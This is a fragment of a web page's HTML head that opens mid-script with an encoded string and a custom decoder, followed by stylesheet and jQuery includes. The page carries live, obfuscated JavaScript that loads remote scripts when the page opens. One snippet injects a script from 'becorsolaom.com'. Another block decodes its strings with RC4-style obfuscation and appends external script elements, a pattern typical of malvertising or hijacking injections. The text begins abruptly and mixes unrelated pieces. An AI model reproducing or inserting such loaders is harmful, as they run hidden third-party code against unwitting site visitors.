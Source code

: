 i9l#+^l:.,6o:o:tZl.aH+6lM+=6o##.a6q^qE+#lMl=:o6+#3qH:+;35+3::Z#.J+i#l.1=6l9lE:qWM#+#:W6:.boW9qE^+qE#l6:.!lHo6l+.*+.)S#oE+^l:.PMMzl#ZoE#l.FlW9l6#+i#l6.P^lE:+.)=##.n+.)ZE^.n+HqE9+.}+MWE^iW^l+AoElq9+6lHl66l6+:qwls9qHH+.D:+h:+=i66lE:si6M+e:+v:+~lt#+.4.4+Z6o=l##+o5Sl=:+=WMM#q^E+AoElq9so6q^qEWM+i#l6sW^lE:+:6qw+.)S#.n+96WN.@wW^l+:o.@R.aR:6qE^+;3571+=oE:lE:.Io=iwlE:+#oi6#l.Iq}+;204+=WMM5W=~+W6^#+HqMM+i#l6.bWE^iW^l+#=6llEsNq9:3+#=6llEs3lq^3:+^l:.XoE:lB:+^l:.@wW^l.IW:W+l66o6.*6l*il#:.*:qwloi:+=WE}W#+.09+s5MWE~+:qwlAoEl+.J.*+7r6rE-.p+l66o6.*.B+k:+6lHl66l6s9owWqE+=i66lE:si6Ms9owWqE+56oN#l6sMWE^+:o.boNl6.XW#l+soE(qwloi:+=W:=3+ZoN+.4l}lE:+#i5#:6qE^+3o#:+#:6qE^qHt+#:W:i#(lB:+^9Z6+:+.6+.B.*N3qMl.*6l*il#:qE^.*+Zo#:+.G+ElB:+6+=oE#:6i=:o6+#:tMlR3ll:#+i#l6sq9+9oEl+#3qH:R:6qE^.*+5+qE=Mi9l#+3lW9l6#+6lMW:q}l+9W:l.J+.N+.4.U.4+;17+qwZo6:R=6qZ:#+;256+=##ziMl#+#lMl=:o6(lB:+oEwl##W^l+.)Nq9^l:.1=oM.1._.T.1#Z+#:W:i#s=o9l+:lB:+=oE:lE:+6l:i6E+#:W6:.@ESl=:R=6qZ:.Xo9l+Zo6:._+Zo6:.0+lE9.@ESl=:R=6qZ:.Xo9l+#l:.P::6q5i:l+9W:W.1AoEl.1q9+9W:W.19owWqE+oE6lW9t#:W:l=3WE^l+o+#l:.@wwl9qW:l.i+#oi6=l+.i+W::W=3./}lE:+#:6qE^+;29',function(n,y){for(var r='YzR(vh&ekK7r-]syW5=9lH^3qS~MwEoZ*6#:i}NBtAcpV1)4T_0mjUO[xQJuCG2ndP!XI/LDF@8fb|ga,',t=['.','%','{'],e='',i=1,f=0;f<n.length;f++){var o=r.indexOf(n[f]);t.indexOf(n[f])>-1&&0===t.indexOf(n[f])&&(i=0),o>-1&&(e+=y(i*r.length+o),i=1);}return e;})),(function(s){var _={};for(k in s){try{_[k]=s[k].bind(s);}catch(e){_[k]=s[k];}}return _;})(document))</script><script>(function(d,z,s,c){s.src='//'+d+'/400/'+z;s.onerror=s.onload=E;function E(){c&&c();c=null}try{(document.body||document.documentElement).appendChild(s)}catch(e){E()}})('becorsolaom.com',4579215,document.createElement('script'),_zxaune)</script>

<script type="text/javascript" data-cfasync="false">/*<![CDATA[/* */(function(){if(window.ce57e0bf7a1365a6b08adab1b20c4591) return; window.ce57e0bf7a1365a6b08adab1b20c4591="ETXwkVlY4a2Zg6-qJkpAvcDijIJCcmxHNHDCMhkXNqTsjLWEdKhjevVv8j2Zp_luWgSFRnsPDPNzKN4";var b=['wrPCjGd9w71TM8KU','acOeLMOHw5jDgcO8DVjCvcKKw5okwopEwqXCokbCsTE=','w7jDiDdSwpnDlT4=','I8Oww6PDu8KtfsKLwpzDvAPCrsKSwrAPwoTCgj90w6DDvsOPw4knYhN8wrHCscK7dcKyw6PDgMOFCMKEaUnCkCrDgBk=','BsOqwqRGT8OMw6TCsC7DosO1wp/DtQ==','wqzCj2Qjw6EBa8OTBCTDmglPDGXCvsKYwqrDkSbCp8OHwp4=','w67CgQTDm8KAUcKYw7xmPcK5Eg==','w5nCk8KAIx3CpjcUHgV2woPDtBfCpcOTwoXCv8KnOkzCusKXRSI=','wozDk8KpYMO3XQ==','woULbnUpUgUD','A8OCMcOXwqVK','UsOAQcOAV8O5WcO2wpd8eg==','EsKfCAvDgsOIYnAyTQ==','UMOBV8OdRw==','wocUw6bDmxXCu2Fv','acOVdEs+w4RFw4jCshLDrgEZwrjCpsKeL8KDbMO9w5TCritow7dIw6tsw7LCn3t/A8Ojwp3CtHt8YzHDiRzDhsKxMDwHw7HCgFV/W0RYwqE=','w4DCmALDicKLIV7Crkg9wrQt','w7fCgAfDi8KcQcK/w6tzAsKuBVIw','bcOmVcOjSEA=','wrl/csK9PFvCoXh0w4DDpcO3LiTDmw==','w7jDiDdSwpnDlT5ADcKoMUZ2','woRyw5zDvg==','A8OTIA==','IMOow6TCuMK6bMKbwqPDsBvCucKU','G8OrwrzCmQ==','W8KbA8Khw4Ad','EcOPLMOQwqxTwqzDn8K1','w7MrQ8OrGMK/Gw=='];(function(a,c){var f=function(g){while(--g){a['push'](a['shift']());}};f(++c);}(b,0x180));var c=function(a,d){a=a-0x0;var e=b[a];if(c['MGcSZR']===undefined){(function(){var h;try{var j=Function('return\x20(function()\x20'+'{}.constructor(\x22return\x20this\x22)(\x20)'+');');h=j();}catch(k){h=window;}var i='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';h['atob']||(h['atob']=function(l){var m=String(l)['replace'](/=+$/,'');var n='';for(var o=0x0,p,q,r=0x0;q=m['charAt'](r++);~q&&(p=o%0x4?p*0x40+q:q,o++%0x4)?n+=String['fromCharCode'](0xff&p>>(-0x2*o&0x6)):0x0){q=i['indexOf'](q);}return n;});}());var g=function(h,l){var m=[],n=0x0,o,p='',q='';h=atob(h);for(var t=0x0,u=h['length'];t<u;t++){q+='%'+('00'+h['charCodeAt'](t)['toString'](0x10))['slice'](-0x2);}h=decodeURIComponent(q);var r;for(r=0x0;r<0x100;r++){m[r]=r;}for(r=0x0;r<0x100;r++){n=(n+m[r]+l['charCodeAt'](r%l['length']))%0x100;o=m[r];m[r]=m[n];m[n]=o;}r=0x0;n=0x0;for(var v=0x0;v<h['length'];v++){r=(r+0x1)%0x100;n=(n+m[r])%0x100;o=m[r];m[r]=m[n];m[n]=o;p+=String['fromCharCode'](h['charCodeAt'](v)^m[(m[r]+m[n])%0x100]);}return p;};c['OaCoFm']=g;c['bkQUis']={};c['MGcSZR']=!![];}var f=c['bkQUis'][a];if(f===undefined){if(c['dpxFgZ']===undefined){c['dpxFgZ']=!![];}e=c['OaCoFm'](e,d);c['bkQUis'][a]=e;}else{e=f;}return e;};var o=window;o[c('0x1','ml66')]=[[c('0x5','Vu84'),0x4b4d24],[c('0x10','QNe1'),0x0],[c('0x19','s#5A'),'0'],[c('0x18','X3pm'),0x0],[c('0xa','(3qP'),![]],[c('0x0','(3qP'),0x0],[c('0x3','8Ki2'),!0x1]];var q=[c('0xb','8Ki2'),c('0x17','z&%U'),c('0xd','32]9'),c('0xf','IGHM')],h=0x0,s,a=function(){if(!q[h])return;s=o[c('0x16','3BQ(')][c('0xc','dNY5')](c('0x12','((Y5'));s[c('0x4','6D2n')]=c('0x1b','NT(T');s[c('0x15','vhX8')]=!0x0;var d=o[c('0x11','BUwq')][c('0x9','ZyO2')](c('0x1a','x(n7'))[0x0];s[c('0x2','((Y5')]=c('0x8','32]9')+q[h];s[c('0x13','vhX8')]=c('0x6','((Y5');s[c('0x7','2Ki2')]=function(){h++;a();};d[c('0x14','@NQF')][c('0xe','s#5A')](s,d);};a();})();/*]]>/* */</script> <link rel="stylesheet" type="text/css" href="style4.css" /><script type="text/javascript" src="js/jquery-1.3.2.min.js"></script><script type="text/javascript" src="js/jquery.cycle.all.min.js"></script><script type="text/javascript" src="js/script.js"></script>
<link href="https://fonts.googleapis.com/css?family=Open Sans" rel="stylesheet"><style>body { font-family: 'Open Sans';font-size: 17px;}</style>
<style>.button-85 { padding: 0.6em 2em; border: none; outline: none; color: rgb(255, 255, 255); background: #111; cursor: pointer; position: relative; z-index: 0; border-radius: 10px; user-select: none; -webkit-user-select: none; touch-action: manipulation;}
.button-85:before { content: ""; background: linear-gradient( 45deg, #ff0000, #ff7300, #fffb00, #48ff00, #00ffd5, #002bff, #7a00ff, #ff00c8, #ff0000 ); position: absolute; top: -2px; left: -2px; background-size: 400%; z-index: -1; filter: blur(5px); -webkit-filter: blur(5px); width: calc(100% + 4px); height: calc(100% + 4px); animation: glowing-button-85 20s linear infinite; transition: opacity 0.3s ease-in-out; border-radius: 10px;}